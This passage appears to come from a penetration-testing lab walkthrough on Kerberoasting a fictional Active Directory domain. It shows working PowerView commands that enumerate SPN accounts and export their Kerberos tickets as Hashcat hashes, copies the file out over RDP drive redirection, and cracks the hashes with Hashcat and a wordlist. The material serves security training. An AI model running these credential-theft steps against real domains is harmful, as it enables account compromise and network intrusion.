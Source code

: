 ***

## Kerberoasting

To cover all our bases, let's check if there are any Kerberoastable users. We can do this via Proxychains using `GetUserSPNs.py` or `PowerView`. In our RDP session, we'll load PowerView and enumerate Service Principal Name (SPN) accounts.

```powershell
PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1
PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN |Select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

There are quite a few. Let's export these to a CSV file for offline processing.

```powershell
PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainUser] Searching for non-null service principal names
VERBOSE: [Get-DomainUser] filter string: (&(samAccountType=805306368)(|(samAccountName=*))(servicePrincipalName=*))
```

We can download this file via the RDP drive redirection we set up earlier: `copy .\ilfreight_spns.csv \\Tsclient\Home`. Open up the .csv file using LibreOffice Calc or Excel and pull out the hashes and add them to a file. We can now run them through Hashcat to see if we can crack any and, if so, if they are for privileged accounts.

```shell-session
$ hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local*$31b8f218c848bd851df59641a45<SNIP>:<redacted>
```
